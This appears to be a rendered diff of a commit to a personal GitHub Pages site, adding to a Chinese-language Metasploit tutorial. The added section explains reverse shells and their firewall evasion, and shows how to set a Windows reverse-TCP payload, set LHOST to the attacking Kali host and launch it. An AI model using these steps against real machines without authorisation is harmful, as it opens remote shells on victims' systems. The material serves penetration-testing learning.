

Before and after one commit to mochen072/github.io, a Markdown page: docs/stcszn.md, 2 parts joined by grey strips. Shown: that part at 99% size. Rendered like a GitHub page; pictures changed too: docs/picture/msf/9.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/docs/stcszn.md
+++ b/docs/stcszn.md
@@ -198,7 +198,7 @@ ifconfig
     <img src="picture/msf/msf2.png" alt="Screenshot of coverpage" title="Cover page">
 
 </figure>
-- <font color = #FF4500>1.2模块验证</font><BR>
+- <font color = #FF4500>1.2模块验证,查看模块详细信息</font><BR>
 - <font color = #FF4500>可以看到①这里有具体的位置</font><BR>
 
         info <模块名称>
@@ -228,0 +269,29 @@ ifconfig
+- <font color = #FF0000>1.反射型</font><BR>
+反射型shell会指定发起连接，自动连入攻击主机，在使用反射型shell时，首先在攻击主机是打开一个端口，以应答目标主机发起的回话连接
+<table><tr><td bgcolor=PowderBlue>注：在穿透防火墙方面，反射型比绑定型成功率高</td></tr></table>
+
+### 5.手动设置有效载荷
+在上一步中通过show payloads查找有效载荷，下面手动设置选定的载荷
+
+```
+        语法： set payload <选定的载荷名称>
+        例： set payload windows/shell_reverse_tcp
+```
+
+</figure>
+     <figure class="thumbnails">
+        <img src="picture/msf/9.png" alt="Screenshot of coverpage" title="Cover page">
+</figure>
+
+- ①：设置选定的载荷
+- ②：查看详细详细
+- ③： 运行kali系统的主机IP
+        set LHOST 12.168.2.307
+ ### 6.运行
+        run 或者 exploit
+        exit    #退出
+ ### 7.其他
+
+- ①：关闭shell的命令————Ctrl+C
+
+## <font color = #1E90FF>第五章 信息收集</font>
````
Also changed, not shown: other parts of docs/stcszn.md (+45 -5 lines), docs/picture/msf/7.png (added), docs/picture/msf/8.png (added).
